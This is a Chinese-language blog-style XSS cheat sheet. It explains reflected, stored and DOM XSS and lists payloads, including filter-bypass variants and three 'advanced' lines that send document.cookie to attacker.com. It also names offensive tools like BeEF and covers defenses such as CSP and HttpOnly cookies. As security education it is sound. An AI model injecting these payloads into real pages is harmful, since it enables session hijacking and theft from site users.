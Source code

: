 ```yaml
---
title: xss注入备忘录
author: ak
description: "xss注入备忘录"
pubDate: 2025-05-10
tags: ["安全", "xss", "渗透"]
---
```


# XSS注入备忘录

## 什么是XSS？

XSS（跨站脚本攻击）是一种常见的web安全漏洞，攻击者通过在网页中注入恶意脚本，使之在用户的浏览器上运行。这些脚本能够读取cookie、session tokens、或其他敏感信息。

## XSS的类型

1. **反射型XSS**

   - 非持久化，需要用户点击特制的链接
   - payload通常在URL参数中

2. **存储型XSS**
   - 恶意代码存储在目标服务器中
   - 受害者浏览页面时触发
3. **DOM型XSS**
   - 发生在客户端JavaScript执行过程中
   - 不涉及服务器端代码

## 常用XSS Payload合集

### 基础测试

```javascript
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>
<script>alert(document.domain)</script>
```

### 图片标签XSS

```javascript
<img src="javascript:alert('XSS')">
<img src=x onerror="alert('XSS')">
<img src=x oneonerrorrror=alert(1)>
```

### 事件处理器

```javascript
<body onload="alert('XSS')">
<input type="text" onmouseover="alert('XSS')">
<div onmouseover="alert('XSS')">
```

### 绕过过滤器

```javascript
<scr<script>ipt>alert('XSS')</scr</script>ipt>
<script>al\u0065rt('XSS')</script>
<img src=x onerror="&#97;lert('XSS')">
```

### SVG XSS

```javascript
<svg/onload=alert('XSS')>
<svg><script>alert('XSS')</script></svg>
```

### 高级Payload

```javascript
<script>fetch('http://attacker.com/'+document.cookie)</script>
<script>new Image().src='http://attacker.com/'+document.cookie</script>
<script>window.location='http://attacker.com?cookie='+document.cookie</script>
```

## 常用XSS Fuzzing工具

### 1. XSStrike

- 功能：自动化XSS检测和利用
- 特点：
  - 支持DOM XSS检测
  - 智能payload生成
  - WAF绕过技术
- 安装：`pip install xsstrike`

### 2. XSS Hunter

- 功能：高级XSS漏洞检测平台
- 特点：
  - 自动收集截图
  - 获取DOM快照
  - 支持盲XSS检测

### 3. Burp Suite - Active Scanner

- 功能：专业的Web应用安全测试
- 特点：
  - 自动化扫描
  - 详细报告生成
  - 自定义payload支持

### 4. BeEF (Browser Exploitation Framework)

- 功能：浏览器漏洞利用框架
- 特点：
  - 实时hook管理
  - 社会工程学模块
  - 详细的命令控制界面

## XSS防御措施

1. **输入验证**

   - 白名单验证
   - 特殊字符过滤

2. **输出编码**

   - HTML编码
   - JavaScript编码
   - URL编码

3. **安全Headers**

   - Content-Security-Policy (CSP)
   - X-XSS-Protection
   - X-Content-Type-Options

4. **Cookie安全**
   - HttpOnly标记
   - Secure标记
   - SameSite属性

## 实用工具和资源

1. **在线XSS测试平台**

   - XSS Game (Google)
   - PortSwigger Web Security Academy
   - OWASP Juice Shop

2. **XSS Payload数据库**
   - PayloadsAllTheThings
   - XSS Filter Evasion Cheat Sheet
   - HTML5 Security Cheatsheet

## 总结

XSS漏洞虽然是一个古老的安全问题，但至今仍然广泛存在于Web应用中。了解各种XSS攻击方式和防御措施对于开发安全的Web应用至关重要。定期更新安全知识，使用现代的安全框架和最佳实践，可以有效降低XSS风险。
